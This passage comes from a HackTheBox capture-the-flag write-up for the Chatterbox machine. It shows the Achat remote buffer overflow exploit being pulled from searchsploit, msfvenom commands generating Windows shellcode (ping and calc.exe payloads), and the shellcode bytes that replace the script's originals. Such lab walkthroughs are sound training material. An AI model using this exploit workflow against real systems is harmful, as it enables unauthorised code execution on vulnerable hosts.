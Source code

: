 **We can mirror the Python exploit script via `-m` flag in `searchsploit`:**
```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Chatterbox)-[2023.05.17|21:07:19(HKT)]
└> searchsploit -m 36025
  Exploit: Achat 0.150 beta7 - Remote Buffer Overflow
      URL: https://www.exploit-db.com/exploits/36025
     Path: /usr/share/exploitdb/exploits/windows/remote/36025.py
    Codes: CVE-2015-1578, CVE-2015-1577, OSVDB-118206, OSVDB-118104
 Verified: False
File Type: Python script, ASCII text executable, with very long lines (637)
Copied to: /home/siunam/ctf/htb/Machines/Chatterbox/36025.py
```

By looking through the exploit script, we need to modify the following stuff:

- Generate our own shellcode via `msfvenom`:

```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Chatterbox)-[2023.05.17|21:12:23(HKT)]
└> msfvenom -a x86 --platform Windows -p windows/exec CMD='ping 10.10.14.26' -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
[...]
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41"
[...]
buf += b"\x6f\x44\x4c\x6e\x70\x32\x70\x36\x39\x70\x41\x41"
```

> Note: The `ping` command is to test the target's aChat application is vulnerable to Remote Buffer Overflow or not.

- Replace the old shellcode from the exploit script:

```python
# msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
#Payload size: 512 bytes

buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51"
buf += b"\x41\x44\x41\x5a\x41\x42\x41\x52\x41\x4c\x41\x59"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x51\x41\x49\x41\x68"
buf += b"\x41\x41\x41\x5a\x31\x41\x49\x41\x49\x41\x4a\x31"
buf += b"\x31\x41\x49\x41\x49\x41\x42\x41\x42\x41\x42\x51"
buf += b"\x49\x31\x41\x49\x51\x49\x41\x49\x51\x49\x31\x31"
buf += b"\x31\x41\x49\x41\x4a\x51\x59\x41\x5a\x42\x41\x42"
buf += b"\x41\x42\x41\x42\x41\x42\x6b\x4d\x41\x47\x42\x39"
buf += b"\x75\x34\x4a\x42\x39\x6c\x6a\x48\x72\x62\x6b\x50"
buf += b"\x49\x70\x4b\x50\x63\x30\x31\x79\x58\x65\x50\x31"
buf += b"\x47\x50\x63\x34\x42\x6b\x32\x30\x30\x30\x72\x6b"
buf += b"\x6e\x72\x4c\x4c\x64\x4b\x31\x42\x7a\x74\x64\x4b"
buf += b"\x62\x52\x4e\x48\x4a\x6f\x74\x77\x4e\x6a\x6e\x46"
buf += b"\x4c\x71\x79\x6f\x46\x4c\x4f\x4c\x6f\x71\x73\x4c"
buf += b"\x79\x72\x4e\x4c\x6b\x70\x47\x51\x76\x6f\x7a\x6d"
buf += b"\x4a\x61\x35\x77\x37\x72\x79\x62\x30\x52\x4f\x67"
```